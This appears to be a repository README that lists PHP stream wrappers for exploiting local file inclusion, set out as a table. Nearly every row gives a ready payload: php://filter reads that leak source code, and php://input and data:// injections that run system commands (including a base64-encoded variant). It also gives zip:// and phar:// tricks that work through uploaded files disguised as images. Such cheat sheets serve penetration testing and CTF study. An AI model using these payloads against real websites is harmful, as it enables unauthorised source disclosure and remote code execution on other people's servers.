 # lfi-phpwrappers

List of PHP Wrappers for Local File Inclusion

| Wrapper | Controllable Function | allow_url_include? | Vulnerability | Notes |
| --- | --- | --- | --- | --- |
| file:// | None | Off | LFI / File Manipulation | - |
| glob://	| None | Off| Directory Traversal	| - |
| php://filter/read	| include |	Off	| File Disclosure	| php://filter/read=convert.base64-encode/resource=index.php |
| php://filter/write | file_put_contents| Off | Encoding | file_put_contents("php://filter/write=string.rot13/resource=x.txt","content"); |
| php://input | include | On | RCE | Encoding is required while reading .php source: <?php echo base64_encode(file_get_contents("solution.php"));?> OR just use <?php system('cat x.php');?> |
| data://	| include	| On | RCE	| data:text/plain,<?php system("id")?> OR data:text/plain;base64,PD9waHAgc3lzdGVtKCJpZCIpPz4= |
| zip:// | include + uploaded file | Off | RCE | zip://shell.jpg%23payload.php |
| phar:// | include + uploaded file | Off | RCE | PHP version >= 5.3 |

References:
https://www.cdxy.me/?p=752
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
